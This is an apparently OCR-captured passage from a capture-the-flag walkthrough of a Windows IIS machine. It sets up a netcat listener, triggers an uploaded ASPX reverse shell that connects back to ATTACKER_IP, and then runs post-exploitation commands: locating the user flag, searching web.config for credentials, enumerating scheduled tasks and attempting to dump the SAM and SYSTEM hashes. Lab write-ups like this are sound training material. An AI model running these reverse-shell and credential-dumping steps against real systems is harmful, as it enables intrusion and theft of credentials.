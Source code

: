 nc -lvnp 53

**Execute reverse shell**

curl http://TARGET\_IP:49663/nt4wrksv/reverse.aspx

**Verify reverse shell caught by listener**

connect to \[ATTACKER\_IP] from (UNKNOWN) \[TARGET\_IP] 49870

Microsoft Windows \[Version 10.0.14393]

(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami

whoami

iis apppool\defaultapppool

**Find user flag**

dir "user.txt" /s

Volume in drive C has no label.

Volume Serial Number is AC3C-5CB5

Directory of c:\Users\Bob\Desktop

07/25/2020 07:24 AM 35 user.txt

1 File(s) 35 bytes

\[...snip...]

#### **Look for credentials in "web.config" file ()** <a href="#by4hm3mok7dx" id="by4hm3mok7dx"></a>

type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

* Nothing found.

#### **Look for scheduled tasks that either lost its binary or is using a binary that can be modified ()** <a href="#kbjo6ftcq9cp" id="kbjo6ftcq9cp"></a>

schtasks /query /fo list /v > schtasks.txt

* Nothing found.

#### **Attempt to Backup SAM and SYSTEM hashes ()** <a href="#ei8q4jkrcq7f" id="ei8q4jkrcq7f"></a>

cd c:\inetpub\wwwroot

reg save hklm\system c:\inetpub\wwwroot\system.hive

ERROR: Access is denied.

reg save hklm\sam c:\inetpub\wwwroot\sam.hive

ERROR: Access is denied.
